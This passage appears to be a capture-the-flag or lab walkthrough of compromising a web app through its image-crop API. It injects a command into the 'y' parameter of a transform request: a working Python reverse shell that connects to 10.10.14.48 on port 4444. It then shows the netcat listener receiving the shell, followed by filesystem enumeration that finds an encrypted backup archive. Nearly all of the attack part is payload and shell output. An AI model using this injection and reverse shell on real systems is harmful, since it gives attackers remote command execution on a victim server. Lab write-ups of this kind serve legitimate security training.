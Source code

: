 ![2025-10-23_03-25.png](img12.png)

```jsx
"transformType":"crop","params":
	{
"x":0,
"y":"0; python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.48\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'",
"width":1024,
"height":1024
	
```

```jsx
"y":"0; python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.48\",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/sh\")'",
```

### shell

```jsx
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.10.11.88] 43846
$ ls
api_admin.py  api_manage.py  app.py     db.json      static       uploads
api_auth.py   api_misc.py    bot        env          system_logs  utils.py
api_edit.py   api_upload.py  config.py  __pycache__  templates

```

# lateral movement

```jsx
$ ls
bin   cdrom  etc   lib    lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib64  media       opt  root  sbin  srv   tmp  var
$ ls opt
google
$ ls -la var
total 60
drwxr-xr-x 14 root root   4096 Sep 22 18:56 .
drwxr-xr-x 20 root root   4096 Sep 22 19:10 ..
**drwxr-xr-x  2 root root   4096 Sep 22 18:56 backup**
drwxr-xr-x  3 root root   4096 Sep 23 16:27 backups
drwxr-xr-x 17 root root   4096 Sep 22 18:56 cache
drwxrwsrwt  2 root root   4096 Sep 22 18:56 crash
drwxr-xr-x 45 root root   4096 Sep 22 19:11 lib
drwxrwsr-x  2 root staff  4096 Sep 22 18:56 local
lrwxrwxrwx  1 root root      9 Oct  7  2024 lock -> /run/lock
drwxrwxr-x  8 root syslog 4096 Oct 25 04:18 log
drwxrwsr-x  2 root mail   4096 Sep 22 18:56 mail
drwxr-xr-x  2 root root   4096 Sep 22 18:56 opt
lrwxrwxrwx  1 root root      4 Oct  7  2024 run -> /run
drwxr-xr-x  8 root root   4096 Sep 22 18:56 snap
drwxr-xr-x  4 root root   4096 Sep 22 18:56 spool
drwxrwxrwt  9 root root   4096 Oct 25 04:49 tmp
-rw-r--r--  1 root root    208 Oct  7  2024 .updated
$ ls -la /var/backup
ls -la /var/backup
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
$
```